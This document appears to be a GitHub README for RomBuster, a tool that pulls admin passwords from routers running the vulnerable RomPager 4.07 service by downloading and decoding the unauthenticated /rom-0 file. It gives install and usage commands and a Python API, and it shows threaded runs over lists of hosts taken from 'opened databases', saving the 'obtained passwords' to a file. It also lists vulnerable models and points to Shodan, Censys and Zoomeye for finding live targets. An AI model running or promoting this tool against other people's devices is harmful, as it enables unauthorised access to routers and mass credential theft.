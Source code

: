 # RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password.

## Features

* Exploits vulnerabilities in most popular router models with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple routers at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [--threads] [--output OUTPUT] [--input INPUT]
                 [--address ADDRESS]

RomBuster is a RomPager exploitation tool that allows to disclosure network
device admin password.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work.
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my router just for fun.

```shell
rombuster --address 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device...
[*] (192.168.2.1) - accessing device rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
rombuster --threads --input routers.txt --output passwords.txt
```

It will exploit all devices in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by netword address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

**output:**

```shell
'SuperHardPassword999'
```

## Vulnerability details

Vulnerability that exploits **RomBuster** exists nowadays in some popular routers all over the world. This vulnerability allows you to download `/rom-0` RomPager configuration file without authentication. **RomBuster** downloads this file, decodes it and giving you password of the router `admin`. Pretty easy way to access main network interface - router.

**Vulnerable RomPager versions:**

* **RomPager/4.07**

**Vulnerable devices:**

* **AirLive WT-2000ARM**
* **D-Link DSL-2520U**
* **D-Link DSL-2640R**
* **D-Link DSL-2740R**
* **Huawei 520 HG**
* **Huawei 530 TRA**
* **Pentagram Cerberus P 6331-42**
* **TP-Link TD-8816**
* **TP-Link TD-8817**
* **TP-LINK TD-8840T**
* **TP-Link TD-W8901G**
* **TP-Link TD-W8951ND**
* **TP-Link TD-W8961ND**
* **ZTE ZXV10 W300**
* **ZTE ZXDSL 831CII**
* **ZynOS**
* **ZyXEL ES-2024**
* **ZyXEL Prestige P-2602HW**
* **ZyXEL Prestige 782R**

**NOTE:** All these devices still online and can be found at `Shodan`, `Censys` or `Zoomeye`, that means that vulnerability is not completely patched (very sad).

